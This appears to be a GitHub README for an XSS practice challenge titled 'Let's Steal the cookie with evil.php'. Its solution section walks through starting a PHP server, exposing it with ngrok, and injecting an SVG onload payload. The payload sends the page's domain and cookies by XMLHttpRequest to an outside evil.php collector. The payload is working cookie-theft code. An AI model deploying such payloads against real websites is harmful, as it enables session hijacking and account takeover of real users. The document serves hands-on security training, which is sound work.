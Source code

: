 Vulnerable html page contains cookie.
Let's Steal the cookie with evil.php

If you can't solve, look solution 


Are you build your evil payload ?
Let's try ->  https://cyb3rsalih.github.io/xss-challenge/



Please let me know if any problem... PR's wellcome :)


======= SOLUTION ======= 

1- Create your local php server in folder where evil.php 
` php -S localhost:1234 `

2- Connect your local server to internet
` ngrok http 1234 `

3- Your address is something like this
` http://xxxxxxxxx.ngrok.io `


4- Now add your XSS payload to vulnerable input.
```
<svg onload="function a(){var url = `http://xxxxxxxxx.ngrok.io/evil.php?domain=${document.domain}&cookie=${document.cookie}`;var r=new XMLHttpRequest();r.open('GET', url, true);r.send();};a();">
```
